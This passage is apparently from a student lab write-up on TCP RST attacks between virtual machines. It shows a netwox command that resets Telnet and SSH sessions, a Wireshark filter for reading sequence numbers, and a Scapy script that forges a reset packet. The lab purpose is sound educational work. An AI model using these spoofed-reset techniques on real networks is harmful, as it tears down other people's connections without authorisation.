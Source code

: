 The following section is all commands we used in the tasks.  The first established a telnet connection between "*VTM1*" and "*VTM2*". The second `netwox 78` command from "*ATK*" will send an RST package to "*VTM2*". The client will close the connection after receiving such a package. 

```Shell
# Establishing the connection (on VM2)
$ telnet 10.0.2.7 23
# Launching an attack (on ATK)
$ sudo netwox 78 -i 10.0.2.7
```

The image below shows the outputs of these commands. The Telnet connection was closed, which proven that our attack was success. 

<figure>
<img style="width:100%" src="https://codimd.s3.shivering-isles.com/demo/uploads/upload_d80c2de1000fba7a99cb70314d5383c6.png"/>
<figcaption> Figure 2.1.2 An attack for Telnet connetion </figcaption><br>
</figure>

### 2.2 Attack to SSH


After that, we also tried to launch an attack by a same command to a SSH connection (We use `ssh 10.0.2.7` to establish). As the image below shows, the SSH connection also closed after attacking. 

<figure>
<img style="width:100%" src="https://codimd.s3.shivering-isles.com/demo/uploads/upload_db362e039b8ea3c92cfcecfe542a4bb7.png"/>
<figcaption> Figure 2.2.1 An attack for SSH connection </figcaption><br>
</figure>

### 2.3 Attack from Scapy

Before modifying the script code, we first ran the Wireshark on the "*ATK*" to observe the expected next sequence number, because the TCP package with invalid seq number will be discard. We used the Wireshark to capture all these Telnet packages from the server to client by defining the filter `ip.src == 10.0.2.7 and ip.dst == 10.0.2.6 and tcp.port == 23`. 

<figure>
<img style="width:100%" src="https://codimd.s3.shivering-isles.com/demo/uploads/upload_ffc9bf7ddf9645af9c550550e8398232.png"/>
<figcaption> Figure 2.3.1 Last captured TCP package from Telnet server to client. </figcaption><br>
</figure>

The image above shows the last package captured. We used the values, such as content length, src IP, dst IP, ack and sequence number, to construct our new Python Script as below:

```python
#!/usr/bin/python
# in tcp_rst.py file
from scapy.all import *
ip = IP(src="10.0.2.7", dst="10.0.2.6")
tcp = TCP(
    sport=23, dport=52664,
    flags="R",
    seq=2540961750+27, ack=558035860
)
pkt = ip/tcp
ls(pkt)
send(pkt, verbose=0)
```
